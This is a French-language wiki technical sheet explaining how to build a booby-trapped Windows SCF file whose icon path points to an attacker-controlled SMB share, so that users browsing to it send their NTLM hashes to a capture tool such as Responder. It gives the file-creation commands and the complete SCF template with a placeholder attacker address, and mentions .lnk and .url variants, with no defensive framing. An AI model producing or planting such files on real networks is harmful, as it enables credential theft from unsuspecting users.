```yaml
---
title: Créer un fichier SCF piégé
description: Guide pour la création de fichier SCF (Shell Command File) piégé. Un fichier SCF peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.
published: true
date: 2024-10-26T09:52:37.534Z
tags: windows, fiche technique
editor: markdown
dateCreated: 2024-10-26T09:31:10.018Z
---
```


# Introduction

Guide pour la création de fichier SCF (Shell Command File) piégé. Un fichier SCF peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.

> Un fichier SCF est utilisé par l'explorateur de fichier pour effectuer de nombreuses actions comme afficher le bureau ou encore se déplacer dans l'arborescence.
> {.is-info}

La base de l'exploitation repose sur le fait de définir l'icone du fichier SCF vers le serveur d'un attaquant. En cliquant sur le raccourci, l'utilisateur va essayer de s'authentifier au serveur pour récupèrer cette icône.

> Depuis Windows Server 2019, les fichiers SCF ne fonctionnent plus. Mais il est possible de passer par des fichiers .lnk malveillants pour contourner le problème.
> {.is-warning}

# Création du fichier

Créer un fichier se terminant par .scf
`New-Item monfichier.scf`
Modifier le fichier
`notepad.exe monfichier.scf`
Ajouter les lignes suivantes et changer certains champs comme souhaité:

```
[Shell]
Command=2
IconFile=\\<adresse du serveur attaquant>\<nom du partage>\<nom de l'icône>.ico
[Taskbar]
Command=ToggleDesktop
```

> Le fichier ainsi que le partage n'existent pas obligatoirement sur le serveur attaquant, il est possible d'avoir uniquement un outil comme Responder pour intercepter les hash.
> {.is-info}

A présent, le fichier est maintenant créer, il suffit d'attendre que le fichier soit cliqué pour recevoir les informations d'authentification sur notre machine attaquante.

# Voir aussi

Fiche technique pour la création d'un fichier LNK piégé
[voir la page](/Fiches-techniques/Windows/Creer-un-fichier-LNK-piégé)

Lnkbomb, créer des fichiers raccourcis .url malveillants
[voir la page](/Outils/Indépendant/Lnkbomb)
